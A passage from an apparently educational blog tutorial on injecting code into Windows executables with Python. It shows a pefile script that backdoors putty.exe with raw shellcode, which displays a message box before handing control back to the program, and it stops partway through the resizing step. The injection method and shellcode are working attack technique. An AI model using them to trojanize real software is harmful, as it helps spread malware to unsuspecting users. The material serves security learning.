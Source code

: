 This backdoored executable should display a message box and give back the control to the main application.

![image-center](/images/2016-12-29-code-injection-with-python/messagebox.png){: .align-center}{:width="250px"}

### Source Code

Here is the source code of the script with some comments.

```python
import pefile
import mmap
import os


def align(val_to_align, alignment):
    return ((val_to_align + alignment - 1) / alignment) * alignment

exe_path = "putty.exe"
shellcode = bytes(b"\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9"
                  b"\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08"
                  b"\x8b\x7e\x20\x8b\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1"
                  b"\xff\xe1\x60\x8b\x6c\x24\x24\x8b\x45\x3c\x8b\x54\x28"
                  b"\x78\x01\xea\x8b\x4a\x18\x8b\x5a\x20\x01\xeb\xe3\x34"
                  b"\x49\x8b\x34\x8b\x01\xee\x31\xff\x31\xc0\xfc\xac\x84"
                  b"\xc0\x74\x07\xc1\xcf\x0d\x01\xc7\xeb\xf4\x3b\x7c\x24"
                  b"\x28\x75\xe1\x8b\x5a\x24\x01\xeb\x66\x8b\x0c\x4b\x8b"
                  b"\x5a\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89\x44\x24\x1c"
                  b"\x61\xc3\xb2\x08\x29\xd4\x89\xe5\x89\xc2\x68\x8e\x4e"
                  b"\x0e\xec\x52\xe8\x9f\xff\xff\xff\x89\x45\x04\xbb\x7e"
                  b"\xd8\xe2\x73\x87\x1c\x24\x52\xe8\x8e\xff\xff\xff\x89"
                  b"\x45\x08\x68\x6c\x6c\x20\x41\x68\x33\x32\x2e\x64\x68"
                  b"\x75\x73\x65\x72\x30\xdb\x88\x5c\x24\x0a\x89\xe6\x56"
                  b"\xff\x55\x04\x89\xc2\x50\xbb\xa8\xa2\x4d\xbc\x87\x1c"
                  b"\x24\x52\xe8\x5f\xff\xff\xff\x68\x69\x74\x79\x58\x68"
                  b"\x65\x63\x75\x72\x68\x6b\x49\x6e\x53\x68\x42\x72\x65"
                  b"\x61\x31\xdb\x88\x5c\x24\x0f\x89\xe3\x68\x65\x58\x20"
                  b"\x20\x68\x20\x63\x6f\x64\x68\x6e\x20\x75\x72\x68\x27"
                  b"\x6d\x20\x69\x68\x6f\x2c\x20\x49\x68\x48\x65\x6c\x6c"
                  b"\x31\xc9\x88\x4c\x24\x15\x89\xe1\x31\xd2\x6a\x40\x53"
                  b"\x51\x52\xff\xd0\xB8\xF0\x50\x45\x00\xFF\xD0")

# STEP 0x01 - Resize the Executable
# Note: I added some more space to avoid error
print "[*] STEP 0x01 - Resize the Executable"

original_size = os.path.getsize(exe_path)
print "\t[+] Original Size = %d" % original_size
```